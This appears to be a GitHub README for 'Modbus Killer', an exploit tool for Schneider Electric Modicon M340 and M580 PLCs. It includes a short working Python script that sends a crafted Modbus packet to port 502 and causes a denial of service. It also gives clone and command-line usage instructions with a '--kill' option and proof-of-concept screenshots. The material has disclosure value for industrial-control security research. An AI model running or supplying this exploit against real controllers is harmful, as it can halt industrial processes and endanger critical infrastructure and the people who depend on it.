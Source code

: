 #  [Tool] Modbus Killer
## [Schneider] Dos Modicon via Modbus Injection

PLC Modicon line ("m340" & "m580") suffer a denial of services upon receiving a simple request to the "modbus" protocol.


	[*] Exploit Title:       "Dos Modicon via Modbus Injection" 
	[*] CVE:                 2018-???? <-- soon !!!
	[*] CVSS Base Score v3:  8.6 / 10
	[*] CVSS Vector String:  AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H  
	[*] Date:                2/01/2018
	[*] Exploit Author:      Fernandez Ezequiel ( @capitan_alfa ) && Bertin Jose ( @bertinjoseb )
	[*] Vendor:              Schneider Electric
	[*] devices(tested):     PLC Modicon m340 (v2.0 > v2.8) & modicom m580


![m340](screenshot/m340.png) ![m580](screenshot/m580.jpg)

### Exploit:

´´´
	import socket 

	client = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
	client.connect(("192.168.0.101",502)) 
	client.send( "\x44\x62\x00\x00\x00\x06\x00\x5a\x00\x20\x00\x00") 
	client.close()
'''

***

# TOOL: "Modbus Killer"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/modbusKiller.git
	usr@pwn:~$ cd modbusKiller

## help

	usr@pwn:~/$ python mdKiller.py --help

	usage: mdKiller.py [-h] [-v] [--sid SLAVEID] --host HOST [--port PORT]
                   [--check] [--kill]

	[+] DOS Modicon via Modbus Injection. ( CVE: 2018-???? )

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --sid SLAVEID  Slave ID (default 00)
	  --host HOST    Host
	  --port PORT    Port (default 502)
	  --check        Show device info
	  --kill         Check availability

	[+] Demo: mdKiller.py --sid 00 --host <target> [--check|--kill ]

***

## POCs:

[+] Poc device VULN:
	[*] CHECK
	![m340](screenshot/1_check.png) 	
	
	[*] KILL
	![m340](screenshot/2_kill.png) 	
	
	[*] RE-CHECK
	![m340](screenshot/2_reCheck.png) 	



[+] Poc device VULN:
	[*] CHECK
	![m340](screenshot/1_check_a.png) 	
	
	[*] KILL
	![m340](screenshot/2_kill_a.png) 	